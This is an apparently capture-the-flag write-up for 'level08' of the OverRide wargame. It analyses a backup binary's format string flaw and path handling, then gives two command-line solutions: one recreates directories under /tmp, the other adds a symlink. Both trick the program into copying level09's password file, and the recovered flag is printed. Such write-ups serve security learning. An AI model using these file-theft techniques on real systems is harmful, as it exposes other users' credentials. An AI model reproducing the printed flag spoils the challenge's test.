# level08

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

<hr>

## Analysis

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program tries to create a copy of the file, provided as the first argument and store it in `./backups/` folder.

Here are the important things that source code analysis gives:

`log_wrapper` function is vulnerable to `format string attack`:
```c
void log_wrapper(FILE *file, char *src, char *format) {
    ...
    snprintf(buf, 254 - strlen(buf), format, strlen(buf));
    ...
}

int main(int ac, char **av) {
    ...
    log_wrapper(log, "Starting back up: ", av[1]);
    ...
}
```

Source file is opened by the filepath given in `argv`, whereas destination (copy) first catenates filepath from `argv` with
`./backups/` and then opens file. <br> 
```c
    // src
    file = fopen(av[1], "r");       
    ...
    // dst
    strcpy(filepath, "./backups/"); 
    strncat(filepath, av[1], 99 - strlen(filepath));
    fd = open(filepath, O_CREAT | O_EXCL | O_WRONLY, 0600); 
```

One more important thing is destination file opened with `O_EXCL`(read the spoiler to know about open flags). <br>
This means that `open` will fail if the file already exist.

<details>
<summary>Understanding open attributes</summary>

You can find open attributes `0xc1` and `0x1b0` in this file:
```bash
    level08@OverRide:~$ nano /usr/include/x86_64-linux-gnu/bits/fcntl.h
```
</details>

The last rule makes impossible to pass the path like this:
```bash
level08@OverRide:~$ ./level08 ../../../../../home/users/level09/.pass
ERROR: Failed to open ./backups/../../../../../home/users/level09/.pass
```

## Solution 1

```bash
# /tmp is a directory with write access
level08@OverRide:~$ cd /tmp

# create the same directory structure as absolute path to level09 
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09

# run with path and get the key!
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cd backups/home/users/level09/
level08@OverRide:/tmp/backups/home/users/level09$ cat .pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Solution 2

If we try to create symbolic link, we'll get permission denied error: 
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
ln: accessing `secret': Permission denied
```

The reason is current folder lacks of write rights:
```bash
level08@OverRide:~$ ll
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

But we're in the home directory! So, let's fight this inequity:
```bash
level08@OverRide:~$ chmod +w .
level08@OverRide:~$ ll
total 28
drwxrwx---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

Great! Now we can simply create symbolic link to the `.pass`:
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
level08@OverRide:~$ ./level08 secret 
level08@OverRide:~$ cat backups/secret
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## References
- [man open](https://man7.org/linux/man-pages/man2/open.2.html)